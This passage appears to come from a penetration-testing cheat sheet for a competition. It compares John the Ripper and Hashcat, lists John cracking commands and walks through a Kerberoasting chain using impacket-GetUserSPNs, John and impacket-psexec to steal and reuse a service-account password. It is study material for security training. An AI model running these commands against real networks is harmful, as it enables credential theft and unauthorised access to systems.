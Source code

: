 **Hashcat:**
- ✅ Faster (especially with GPU)
- ✅ Better performance
- ❌ More complex syntax
- ❌ May need installation

**CPTC Recommendation:**
- Use John for quick cracks (< 5 min)
- Use Hashcat if John fails and you have time
- Both work, use what you know

---

## Quick Command Reference

```bash
# Auto-detect and crack
john hashes.txt

# With wordlist
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# With rules
john --wordlist=rockyou.txt --rules hashes.txt

# Specify format
john --format=NT hashes.txt
john --format=krb5tgs hashes.txt
john --format=raw-md5 hashes.txt

# Show cracked
john --show hashes.txt
john --show --format=NT hashes.txt

# Check status
john --status

# Resume
john --restore

# List formats
john --list=formats
```

---

## Integration with Other Tools

### John + Impacket (Kerberoasting)

```bash
# 1. Get hashes
impacket-GetUserSPNs -request 'CORP/user:pass' -dc-ip 10.10.10.10 -outputfile spn.txt

# 2. Crack
john --format=krb5tgs --wordlist=rockyou.txt spn.txt

# 3. Use password
john --show --format=krb5tgs spn.txt
# Output: $krb5tgs$...:CrackedPassword123!

impacket-psexec 'CORP/serviceaccount:CrackedPassword123!@TARGET'
```

---